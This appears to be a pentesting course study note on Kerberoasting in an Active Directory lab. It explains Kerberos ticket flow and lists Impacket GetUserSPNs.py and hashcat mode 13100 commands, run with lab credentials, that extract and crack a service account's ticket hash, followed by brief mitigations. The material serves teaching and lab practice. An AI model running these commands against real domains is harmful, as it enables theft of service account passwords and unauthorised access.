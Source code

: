 # Kerberoasting

Domain Controller (DC) also known as a 'key distribution centre' (KDC)

User will need to authenticate to the DC

When they do that
1. user will request a TGT (Ticket-Granting-Ticket) and provide/supply the NTLM hash (i.e. a valid user and password)
2. DC receives request and returns a TGT encrypted with a krbtgt (kerberos tgt) hash

Say we have an application server (could be SQL, could be AV, etc.), a service that we would like to access.
This service will have an SPN (Service Principle Name)

To access this service we need to first request a TGS (Ticket-Granting-Service ticket).

3. We present our TGT to the KDC and request a TGS
4. The server knows the server account hash and will encrypt that and sent it back to us 

> KDC does not know if we have access to the server or not
> It will provide to us the TGS with the server account hash
> This is where Kerberoasting starts

WE can get the hash, try to decrypt it or relay it!!

For us to connect to server:

5. Present TGS to the application server 
6. The server decrypts it using its application hash

![krbr-1](https://user-images.githubusercontent.com/87711310/209465391-b6fbf4e4-47d2-4fd9-b8ff-ba1e94ef8355.png)

## The attack

Will use another Impacket module
```
sudo GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.10.10.6 -request
```

![krbr-2](https://user-images.githubusercontent.com/87711310/209465392-98bea4ed-2f3a-4ccd-b48b-a1134b6753d8.png)


We get the kbr5tgs hash for the SQL Service we set up before
copy and paste into file

Find which module to use
```
hashcat --help | grep Kerberos
```

![krbr-3](https://user-images.githubusercontent.com/87711310/209465393-71c2b29b-78bf-4df0-8e35-87d222909767.png)

We will use the Kerberos 5 TGS-REP, etype 23 module (13100)

```
sudo hashcat -m 13100 hashes.txt rockyou.txt -O
```

Will find SQL Service domain password (MYpass123!)

![krbr-4](https://user-images.githubusercontent.com/87711310/209465394-fa6d6a12-3a44-45d7-805a-d95d8682b93d.png)

Which we knew already from our previous attacks (eg. ntlmxrelay.py)

Once you get a credential at all, you can try Kerberoasting

## Kerberoasting Mitigation

We are abusing a feature so there is nothing to defent against it other than:
- strong passwords (not just long)
- least privilege
	- do NOT make domain accounts domain admins
	- do NOT make service accounts administrators

